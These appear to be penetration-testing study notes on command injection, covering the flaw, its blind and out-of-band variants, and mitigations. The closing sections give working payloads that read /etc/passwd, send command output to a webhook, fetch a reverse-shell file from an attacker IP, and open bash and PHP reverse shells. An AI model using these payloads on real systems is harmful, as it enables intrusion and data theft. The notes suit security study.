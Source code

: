### Overview
Command injection is a web application security vulnerability that allows an attacker to execute arbitrary system commands on the underlying operating system. It occurs when an application does not properly validate or sanitize user-supplied data before using it to construct system commands. Attackers can exploit this weakness to execute unintended commands, leading to unauthorized access, data exfiltration, server compromise, and other security risks.

Command injection vulnerabilities typically arise in web applications that take user input and directly use it to construct system commands. The most common attack vector is through web application forms or URL parameters, where user-supplied data is not sanitized or properly validated before being passed to the underlying system.

#### Features
1. **Identify a Vulnerable Input:** The attacker identifies a web application field (e.g., form input, URL parameter) that directly passes user-supplied data to a system command.
2. **Craft the Payload:** The attacker crafts a malicious payload that includes system commands to be executed by the server.
3. **Inject the Payload:** The attacker injects the crafted payload into the vulnerable input field.
4. **Command Execution:** The application, without proper validation, takes the injected payload and uses it to construct and execute a system command on the server.
5. **Exploitation:** The executed system command performs the intended action, such as accessing sensitive data, executing additional commands, or compromising the server.

#### Examples
- Suppose a web application has a form that allows users to ping an IP address to check its availability:
```html
<form action="/ping" method="GET">   <label for="ip_address">Enter IP Address:</label>   <input type="text" id="ip_address" name="ip_address">   <input type="submit" value="Ping"> </form>
```
- The application uses the user-supplied IP address directly in a system command to execute the ping:
```python
import subprocess
def ping(ip_address):
	cmd = "ping -c 4 " + ip_address
	result = subprocess.getoutput(cmd)
	return result
```
- If the application does not validate or sanitize the `ip_address` input properly, an attacker can inject a command as the IP address to execute arbitrary commands on the server: `127.0.0.1; ls -la`
- The resulting command executed on the server becomes: `ping -c 4 127.0.0.1; ls -la`
- The server will execute the `ls -la` command along with the ping, potentially listing the contents of the server's directory and exposing sensitive information.

#### Mitigation
- Use parameterized queries or prepared statements to separate user input from the command execution.
- Validate and sanitize user input to ensure it adheres to the expected format.
- Use application-specific whitelists for allowable inputs when constructing system commands.
- Limit the privileges of the server processes that execute the commands to minimize potential damage in case of a successful attack.

### Command Injection Types
#### Overview
1. **Basic Command Injection:** This is the most common type of command injection. It occurs when user-supplied data is directly concatenated with system commands without proper validation or sanitization.
```bash
# Original command to list files in a directory 
ls /path/to/directory  

# Command injection vulnerability 
user_input = "; cat /etc/passwd" 
ls /path/to/directory + user_input
```
2. **Blind Command Injection:** In blind command injection, the application does not display the command's output in the response. Attackers need to use techniques to infer the results indirectly, such as time delays or error messages.
```bash
# Original command to ping an IP address
ping 192.168.1.1

# Blind command injection vulnerability
user_input = "; sleep 10"
ping 192.168.1.1 + user_input
```
- The application may take longer to respond if the injected command is executed successfully.
3. **Time-Based Blind Command Injection:** Similar to blind command injection, but the attacker uses time delays to infer the success of the injected command.
```bash
# Original command to ping an IP address
ping 192.168.1.1

# Time-based blind command injection vulnerability 
user_input = "; sleep 10"
ping 192.168.1.1 + user_input
```
- The application may take 10 seconds longer to respond if the injected command is executed successfully.
4. **Out-of-Band Command Injection:** In this type, the attacker leverages other communication channels to interact with the injected command's results (e.g., DNS requests, HTTP requests).
```bash
# Original command to ping an IP address
ping 192.168.1.1

# Out-of-band command injection vulnerability
user_input = "; nslookup attacker.com"
ping 192.168.1.1 + user_input
```
+ The attacker's domain name server (DNS) may receive a request from the victim's server if the injected command is executed successfully.
5. **Platform-Specific Command Injection:** This type of injection targets specific operating systems or platforms, taking advantage of their unique features or vulnerabilities.
```powershell
# Original command to list files in a directory 
dir C:\path\to\directory  

# Windows-specific command injection vulnerability 
user_input = " & type C:\passwords.txt"
dir C:\path\to\directory + user_input
```
- The `type` command will display the contents of the specified file.

#### Blind Command Injection
##### Overview
Blind Command Injection is a type of command injection attack where the application is vulnerable to command injection, but the results of the injected command are not directly visible in the application's response. Unlike regular command injection, where the attacker can observe the output of the executed command, blind command injection requires the attacker to infer the success or failure of the injected command indirectly through the application's behavior.

Blind command injection attacks are typically encountered when the application executes the injected command but does not display the command's output on the web page or in the response. As a result, the attacker cannot directly observe the results of the injected command, making the attack more challenging.

There are two main types of blind command injection:

1. **Boolean-Based Blind Command Injection:** In this type of blind command injection, the attacker injects a command that results in a condition that is either true or false. The application's response may vary depending on whether the injected condition evaluates to true or false. The attacker then uses this variation in the application's behavior to infer whether the injected command was executed successfully.
```bash
ping 192.168.1.1; if [ -f /etc/passwd ]; then sleep 5; fi;
 ```
- If the injected file (`/etc/passwd`) exists on the server, the application will introduce a 5-second delay in the response. The attacker can infer that the file exists if the application's response takes 5 seconds longer.
    
2. **Time-Based Blind Command Injection:** In time-based blind command injection, the attacker injects a command that causes a time delay in the application's response. The attacker then measures the time it takes for the application to respond, which indirectly reveals whether the injected command was executed.
```bash
ping 192.168.1.1; sleep 10;
```
- If the injected command is executed, the application's response will be delayed by 10 seconds. The attacker can determine whether the command was executed based on the response time.

##### Attack Vector
1. **Find a parameter that is vulnerable to command injection**
2. **Try injection scripts**:
	```bash
	curl https://tcm-sec.com; whoami
	```
	- As long as the website returns a good response then the command is executed
3. **Connect it to a WebHook**:
	```bash
	https://webhook.site/d73c9ce0-01e0-46e9-b192-774161b3fcd9?`whoami`
	```
	- The result of the command will be shown in the request in the WebHook
4. **Connect Back to Python Server**:
	```bash
	python3 -m http.server 8080
	
	https://tcm-sec.com \n wget <Attacker_IP>:8080/reverse_shell.php
	```
	- The result of the command will reconnect back to the open python http server (reverse shell)
#### Command Injection Reverse Shells
1. **/bin/bash Shell**:
```bash
https://tcm-sec.com; bash -i >& /dev/tcp/<Attacker_IP>/4444 0>&1; whoami
```
2. **PHP Shell**:
```bash
https://tcm-sec.com; /usr/local/bin/php -r '$sock=fsockopen("<Attacker_IP>",4444);exec("/bin/sh -i <&3 >&3 2>&3");'; whoami
```

